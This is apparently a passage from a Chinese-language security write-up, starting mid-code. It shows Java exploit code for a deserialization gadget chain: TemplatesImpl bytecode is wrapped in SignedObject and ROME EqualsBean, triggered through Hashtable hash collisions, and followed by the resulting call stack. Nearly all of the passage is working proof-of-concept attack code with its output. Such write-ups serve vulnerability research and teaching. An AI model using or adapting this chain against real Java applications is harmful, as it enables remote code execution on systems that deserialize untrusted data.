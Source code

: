 ```plain

        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][]{payloads});
        setFieldValue(obj, "_name", "a");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());

        Hashtable table1 = getPayload(Templates.class, obj);

        KeyPairGenerator kpg = KeyPairGenerator.getInstance("DSA");
        kpg.initialize(1024);
        KeyPair kp = kpg.generateKeyPair();
        SignedObject signedObject = new SignedObject(table1, kp.getPrivate(), Signature.getInstance("DSA"));

        Hashtable table2 = getPayload(SignedObject.class, signedObject);

        //序列化
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(table2);
        oos.close();
        //System.out.println(new String(Base64.getEncoder().encode(baos.toByteArray())));

        //反序列化
        ByteArrayInputStream bais = new ByteArrayInputStream(baos.toByteArray());
        ObjectInputStream ois = new ObjectInputStream(bais);
        ois.readObject();
        ois.close();
    }

    public static Hashtable getPayload (Class clazz, Object payloadObj) throws Exception{
        EqualsBean bean = new EqualsBean(String.class, "r");
        HashMap map1 = new HashMap();
        HashMap map2 = new HashMap();
        map1.put("yy", bean);
        map1.put("zZ", payloadObj);
        map2.put("zZ", bean);
        map2.put("yy", payloadObj);
        Hashtable table = new Hashtable();
        table.put(map1, "1");
        table.put(map2, "2");
        setFieldValue(bean, "_beanClass", clazz);
        setFieldValue(bean, "_obj", payloadObj);
        return table;
    }
}
```

调用栈

```plain
getObject:177, SignedObject (java.security)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
beanEquals:146, EqualsBean (com.sun.syndication.feed.impl)
equals:103, EqualsBean (com.sun.syndication.feed.impl)
equals:495, AbstractMap (java.util)
reconstitutionPut:1241, Hashtable (java.util)
readObject:1215, Hashtable (java.util)
```
